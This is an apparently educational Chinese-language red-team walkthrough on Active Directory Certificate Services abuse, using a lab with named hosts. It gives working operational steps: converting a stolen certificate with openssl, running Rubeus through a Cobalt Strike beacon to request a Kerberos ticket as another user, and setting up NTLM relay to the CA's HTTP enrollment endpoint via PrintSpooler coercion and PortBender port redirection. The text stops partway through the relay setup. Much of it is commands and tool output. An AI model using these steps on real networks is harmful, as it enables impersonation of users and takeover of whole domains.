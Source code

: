 ```
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
```

复制整个证书（包括RSA PRIVATE KEY部分）并将其保存到Kali VM 上，取名cert.pem 。然后使用openssl命令将其转换为 pfx 格式。可以输入密码（推荐）或将其留空
```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```


转换cert.pfx为 base64 编码字符串：  ```cat cert.pfx | base64 -w 0```并用于```Rubeus asktgt```使用此证书请求 TGT
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap
```
# NTLM Relaying to ADCS HTTP Endpoints

AD CS services支持HTTP注册，通常站点的结构是：

```http[s]://<hostname>/certsrv```

默认情况下支持```NTLM``` 和 ```Negotiate```身份验证

在默认配置中，这些站点容易受到 NTLM 中继攻击，一种常见的滥用方法是强制域控制器对攻击者控制器位置进行身份验证，将请求中继到 CA 并获取该 DC 的证书，然后使用它来获取 TGT

这里要注意一个点，中继攻击不能中继自己，比如说这里CA是运行在DC-1上，这意味着我们不能 PrintSpooler（或其他）DC-1 并将其中继回同一台机器并获取 DC-1 的证书。

这时，我们利用域里的另外两台机器来进行中继攻击

这里的IP和主机对应是：

10.10.15.75 -> DC-1
10.10.15.254 -> WKSTN-3.
10.10.17.25 -> SRV-1


首先，在SRV-1上设置
1. 把445端口流量重定向到8445端口
2. 启动反向端口转发，把本地8445端口转到 Team Server（也就是kali机）的445端口
3. 开启socket代理

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
                                            
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
